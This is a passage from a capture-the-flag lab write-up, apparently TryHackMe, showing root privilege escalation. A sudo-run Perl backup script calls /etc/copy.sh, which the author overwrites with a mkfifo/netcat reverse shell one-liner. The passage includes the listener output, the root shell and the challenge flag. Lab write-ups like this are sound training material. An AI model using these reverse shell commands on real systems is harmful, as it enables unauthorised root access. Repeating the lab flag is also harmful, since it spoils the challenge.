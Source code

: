system(<span class="hljs-string">"sh"</span>, <span class="hljs-string">"/etc/copy.sh"</span>);
</code></pre><hr>
<p><strong>copy. sh</strong></p>
<p>The copy. sh script creates a reverse shell</p>
<pre><code>cat <span class="hljs-meta-keyword">/etc/</span>copy.sh
rm <span class="hljs-meta-keyword">/tmp/</span>f;mkfifo <span class="hljs-meta-keyword">/tmp/</span>f;cat <span class="hljs-meta-keyword">/tmp/</span>f|<span class="hljs-meta-keyword">/bin/</span>sh -i <span class="hljs-number">2</span>&gt;<span class="hljs-variable">&amp;1</span>|nc <span class="hljs-number">192.168</span><span class="hljs-number">.0</span><span class="hljs-number">.190</span> <span class="hljs-number">5554</span> &gt;<span class="hljs-meta-keyword">/tmp/</span>f
</code></pre><hr>
<p><strong>Root Reverse Shell</strong></p>
<p>I updated the IP address in the copy.sh script with my own (tun0) and modified the script&#39;s contents. Following this, I ran netcat. Upon running the backup.pl script with the sudo command, a new reverse shell was generated with root privileges. I then gained access to read the root.txt flag located in the root directory.&quot;</p>
<pre><code>echo <span class="hljs-string">"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&gt;&amp;1|nc 10.13.0.39 5554 &gt;/tmp/f"</span> &gt; /etc/<span class="hljs-keyword">copy</span>.<span class="hljs-keyword">sh</span>
<span class="hljs-keyword">cat</span> /etc/<span class="hljs-keyword">copy</span>.<span class="hljs-keyword">sh</span>
<span class="hljs-keyword">rm</span> /tmp/f;mkfifo /tmp/f;<span class="hljs-keyword">cat</span> /tmp/f|/bin/<span class="hljs-keyword">sh</span> -i 2&gt;&amp;1|nc 10.13.0.39 5554 &gt;/tmp/<span class="hljs-built_in">f</span>
sudo /usr/bin/perl /home/itguy/backup.<span class="hljs-keyword">pl</span>
<span class="hljs-keyword">rm</span>: cannot remove '/tmp/f': <span class="hljs-keyword">No</span> such <span class="hljs-keyword">file</span> or directory

nc -nvlp 5554                                            
listening <span class="hljs-keyword">on</span> [any] 5554 ...
connect to [10.13.0.39] from (UNKNOWN) [10.10.198.128] 45002
/bin/<span class="hljs-keyword">sh</span>: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# <span class="hljs-keyword">cd</span> /root
# <span class="hljs-keyword">ls</span>
root.txt
# <span class="hljs-keyword">cat</span> root.txt
THM{6637f41d0177b6f37cb20d775124699f}
</code></pre>
